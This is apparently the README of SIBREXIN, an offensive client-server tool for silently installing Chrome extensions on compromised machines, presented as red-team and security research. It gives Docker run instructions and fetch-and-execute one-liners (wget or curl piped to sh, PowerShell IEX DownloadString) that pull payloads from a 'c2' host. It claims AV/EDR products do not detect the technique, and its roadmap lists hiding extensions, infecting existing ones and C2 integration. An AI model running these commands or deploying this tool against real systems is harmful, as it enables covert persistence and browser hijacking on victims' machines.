 ![SIBREXIN Logo](./assets/logo.png)

## 📌 Description

SIBREXIN is a **client-server** tool designed to streamline the **silent installation** of browser extensions without user interaction. It is intended for security testing, research, red teaming, and vendors aiming to enhance their endpoint security solutions.

It consists of two main components:

- **Server-side**: Runs in a Dockerized environment, responsible for generating custom payloads and managing browser extension deployment.
- **Client-side**: Uses Bash and PowerShell one-liners to seamlessly install browser extensions on Linux (Ubuntu), macOS, and Windows.

**Unauthorized use of this tool on systems you do not own or have explicit permission to test may violate applicable laws and regulations.**

---

## 🛠️ Features

- **Silent installation** of Google Chrome extensions without user interaction.
- **Cross-platform support**: Works on Linux (Ubuntu), macOS, and Windows.
- **Dockerized server** for seamless deployment.
- **One-liner commands** for quick execution.
- **Deploy default or custom extensions** for greater flexibility.

---

## 🔍 Security Research & Awareness

This project was created to **raise awareness** about a security issue that allows attackers to silently install browser extensions after system compromise.

- After reporting this to Google's Chromium Security Team, they once again classified the issue as "Won't Fix"; stating that it requires **local or post-compromise access**, which falls outside Chrome's security threat model. While we acknowledge their stance, unless security vendors and professionals take action, this attack vector will remain exploitable.
- Our testing confirms that tested **Antivirus (AV)** and **Endpoint Detection & Response (EDR)** solutions do not currently detect or block this technique. For confidentiality reasons, vendor names will not be disclosed.

---

## 🚀 Installation & Usage

### **Clone the repository**
```bash
git clone https://github.com/t0-n1/SIBREXIN
cd SIBREXIN
```

### **Run the Dockerized Server**
```bash
docker build -t sibrexin .
docker run --rm -it --name sibrexin -p 443:443 \
-v ./cert:/app/cert -v ./download:/app/download -v ./upload:/app/upload \
sibrexin [--hostname <HOSTNAME>] [--extension <EXTENSION_NAME>]
```

Once the server is running, copy and paste the printed one-liners into the target machines. This will silently install the specified browser extension without user interaction.

If no `--hostname` or `--extension` is provided, the server defaults to: 

- Hostname: `127.0.0.1`
- Extension: `pdf-viewer`

### **Custom Extensions and Certificates**

- To use a **custom extension**, place your zipped extension inside `download/extension` directory and reference it with the `--extension` flag (without `.zip`).
- If you have a CA-signed certificate, place `fullchain.pem` and `privkey.pem` in the `cert` directory. Otherwise, the tool will generate a **self-signed certificate**.

### **Using One-Liners**

Below are one-liners for different operating systems:
- If using a **CA-signed certificate**, replace `c2.sibrexin.com` with your hostname.
- If using an **IP address** or **hostname with a self-signed certificate**, use the printed one-liners that ignore insecure certificates.

#### Linux (Ubuntu)
```bash
wget -q https://c2.sibrexin.com/download/client/linux -O - | sh &> /dev/null
```

#### macOS
```bash
curl -s https://c2.sibrexin.com/download/client/macos | sh
```

#### Windows
```powershell
IEX (New-Object Net.WebClient).DownloadString("https://c2.sibrexin.com/download/client/windows")
```

---

## 🔮 Future Roadmap

- Hide extensions from the browser toolbar after installation.
- Compromise installed-by-default extensions.
- Infect previously installed user extensions.
- Integrate with existing C2 agents.
- Expand support beyond Google Chrome to additional browsers.

---

## 📝 References

- [HMAC and "Secure Preferences": Revisiting Chromium-based Browsers Security](https://www.cse.chalmers.se/~andrei/cans20.pdf)
- [SIBREXIN: Installing Browser Extensions Silently](https://medium.com/exness-blog)
- [Weaponizing Chrome Extensions: Abusing the Browser for Persistence](https://www.behind-the-code.com/)

